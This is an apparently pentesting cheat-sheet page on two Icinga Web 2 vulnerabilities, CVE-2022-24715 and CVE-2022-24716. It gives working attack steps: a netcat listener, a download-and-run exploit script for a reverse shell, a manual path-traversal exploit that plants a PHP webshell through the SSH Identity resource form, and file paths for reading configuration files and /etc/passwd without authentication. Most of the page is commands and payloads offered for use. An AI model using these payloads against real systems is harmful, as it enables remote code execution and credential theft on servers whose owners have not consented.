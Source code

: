 ```yaml
---
title: Icinga Web Pentesting
description: 
tags:
    - Privilege Escalation
    - Web
refs:
    - https://www.sonarsource.com/blog/path-traversal-vulnerabilities-in-icinga-web/
date: 2023-04-15
draft: false
---
```


## Remote Code Execution (CVE-2022-24715)

Authenticated user can execute arbitrary code.

### Automation

[This repository](https://github.com/JacobEbben/CVE-2022-24715) is available for reverse shell automatically.

In local machine, start a listener.

```bash
nc -lvnp 4444
```

Next create a PEM file and download the script, then execute it.

```bash
ssh-keygen -m pem
# Location: cert.pem
# Passphrase: (empty)

wget https://github.com/JacobEbben/CVE-2022-24715/blob/main/exploit.py
python3 exploit.py -t http://example.com/icingaweb2/ -I <local-ip> -P 4444 -u username -p password -e cert.pem
```

### Manual Exploitation

*This content may not be working due to not enough verification.

1. Prepare Pem private key in local machine.
    
    ```bash
    ssh-keygen -m pem
    # Location cert.pem
    # Passphrase: (empty)
    ```
    
2. Login Icinga Web 2 and enter dashboard.
3. Go to Configuration → Application → Resources.
4. Click “Create a New Resource”.
5. In New Resource Window, select Resource Type “SSH Identity”.
6. Fill other field. For example,
    
    ```bash
    [Resource Name]
    evil
    
    [User]
    ../../../../../../../../../../../dev/shm/run.php
    
    [Private Key]
    <PEM_PRIVATE_KEY>
    \x00<?php system($_REQUEST["cmd"]);?>
    ```
    
    Regarding the Private Key field, copy the content of the PEM file we’ve generated and paste it, then followed by newline, “\x00” and PHP webshell code.
    
7. Click Save Resource.

<br />

## Arbitrary File Disclosure (CVE-2022-24716)

Unauthenticated user can read arbitrary files.  
Assume the Icinga Web’s root directory is **`/icingaweb2`**.

```bash
/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/authentication.ini
/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/config.ini
/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/resources.ini
/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/roles.ini
/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/passwd
```

Also we can [this script](https://github.com/JacobEbben/CVE-2022-24716) for automatically.